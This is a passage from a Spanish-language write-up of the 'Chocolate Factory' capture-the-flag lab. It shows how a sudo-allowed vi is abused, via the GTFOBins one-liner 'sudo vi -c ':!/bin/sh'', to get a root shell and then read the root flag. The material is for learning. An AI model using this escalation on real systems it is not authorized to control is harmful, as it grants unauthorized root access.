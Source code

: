 Desde <a href="https://gtfobins.github.io/gtfobins/vi/#sudo">GTFOBins</a> vemos que con una simple linea al poder ejecutar vi como sudo podemos escalar privilegios:

> sudo vi -c ':!/bin/sh' /dev/null

```bash
charlie@chocolate-factory:/home/charlie$     sudo vi -c ':!/bin/sh' /dev/null

# whoami
root
# ls
teleport  teleport.pub  user.txt
# cd /root
# ls
root.py
```

Parece que tenemos la flag de root pero en formato .py

Intentamos ejecutarlo pero nos reporta una clave. ¿Será la clave que encontramos al principio? Es posible.

```bash
# python root.py
Enter the key:  ???????????????????????????????????????
__   __               _               _   _                 _____ _          
\ \ / /__  _   _     / \   _ __ ___  | \ | | _____      __ |_   _| |__   ___ 
 \ V / _ \| | | |   / _ \ | '__/ _ \ |  \| |/ _ \ \ /\ / /   | | | '_ \ / _ \
  | | (_) | |_| |  / ___ \| | |  __/ | |\  | (_) \ V  V /    | | | | | |  __/
  |_|\___/ \__,_| /_/   \_\_|  \___| |_| \_|\___/ \_/\_/     |_| |_| |_|\___|
                                                                             
  ___                              ___   __  
 / _ \__      ___ __   ___ _ __   / _ \ / _| 
| | | \ \ /\ / / '_ \ / _ \ '__| | | | | |_  
| |_| |\ V  V /| | | |  __/ |    | |_| |  _| 
 \___/  \_/\_/ |_| |_|\___|_|     \___/|_|   
                                             

  ____ _                     _       _       
 / ___| |__   ___   ___ ___ | | __ _| |_ ___ 
| |   | '_ \ / _ \ / __/ _ \| |/ _` | __/ _ \
| |___| | | | (_) | (_| (_) | | (_| | ||  __/
 \____|_| |_|\___/ \___\___/|_|\__,_|\__\___|
                                             
 _____          _                    
|  ___|_ _  ___| |_ ___  _ __ _   _  
| |_ / _` |/ __| __/ _ \| '__| | | | 
|  _| (_| | (__| || (_) | |  | |_| | 
|_|  \__,_|\___|\__\___/|_|   \__, | 
                              |___/  

flag????????????????????????????
```

Obtenemos así la flag de root.

Muchas gracias por leer este writeup, espero que te haya gustado!
